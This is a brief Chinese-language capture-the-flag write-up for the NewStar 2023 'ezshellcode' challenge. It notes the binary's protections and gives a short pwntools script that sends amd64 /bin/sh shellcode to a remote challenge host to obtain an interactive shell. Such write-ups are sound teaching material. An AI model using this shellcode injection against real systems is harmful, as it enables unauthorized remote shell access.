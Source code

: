 ```yaml
---
title: newstar2023 week1 - ezshellcode
date: 2023/9/25 12:00:00
tags:
    - noob
excerpt: 通过发送64位sh的shellcode到`ezshellcode`程序即可获得shell。
---
```


## 文件分析

下载`ezshellcode`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

输入一段shellcode就会直接运行了，发一段64位sh的shellcode即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27766)
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
